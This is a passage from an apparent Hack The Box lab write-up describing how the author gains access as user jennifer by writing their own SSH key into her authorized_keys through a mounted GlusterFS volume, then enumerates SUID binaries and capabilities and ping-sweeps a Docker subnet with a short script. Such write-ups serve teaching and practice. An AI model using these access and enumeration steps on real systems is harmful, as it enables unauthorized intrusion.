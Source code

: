 
To perform an **User Pivoting** using **SSH**, I just need to create the keys on my machine with `ssh-keygen` and use the public key to save it as **authorized_keys** in the **.ssh** folder of the home of the user I am going to impersonate, using the mounted **GlusterFS** volume. Once I access the machine, I perform a basic enumeration, search for **Capabilities** or binaries with **SUID** privileges, and other exploit vectors but find nothing. But if I see the **Hostname**, apart from the typical HTB, also as IP address that of a container, so surely they exist on the machine. I create a script to search for containers and I find one, and if I search by the ports that it has active, it has the **10000** open.

```bash
cd /root
ssh-keygen
cat id_rsa.pub | tr -d '\n' | xclip -sel clip

cd /mnt/flustered/.ssh
echo '.....' > authorized_keys
ssh jennifer@10.10.11.131                   # :)

id
groups
sudo -l                                     # :(
echo $PATH                                  # Export my path!!

export PATH=.......

sudo -l                                     # :(
getcap -r / 2>/dev/null
find \-perm -4000 2>/dev/null

ip a
hostname -I
# --> 10.10.11.131 172.17.0.1       docker!!

docker image
docker ps                                   # Im not privileges!!!

# Host Discovery - Docker container
touch host_discovery.sh
chmod +x !$
```

> **host_discovery.sh** script:

```bash
#!/bin/bash

for host in $(seq 1 254); do
  timeout 1 bash -c "ping -c 1 172.17.0.$host" &>/dev/null && echo "[+] Host 172.17.0.$host - ACTIVE" &
done; wait
```

```bash
./host_discovery.sh
# [+] Host 172.17.0.1 - ACTIVE
# [+] Host 172.17.0.2 - ACTIVE            <---

touch port_discovery.sh
chmod +x !$
```
